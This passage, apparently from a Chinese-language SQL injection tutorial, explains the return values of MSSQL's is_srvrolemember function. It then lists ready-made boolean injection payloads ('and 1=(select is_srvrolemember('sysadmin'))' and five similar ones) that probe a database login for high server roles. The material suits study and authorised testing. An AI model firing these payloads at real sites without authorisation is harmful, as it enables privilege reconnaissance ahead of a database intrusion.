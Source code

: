 ![mysql](./img/1.2.1.png)

返回类型:

返回值|描述
-|-|
0|login 不是 role 的成员。
1|login 是 role 的成员。
NULL|role 或 login 无效，或者没有查看角色成员身份的权限。

最终我们可以构造语句

```
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))

```
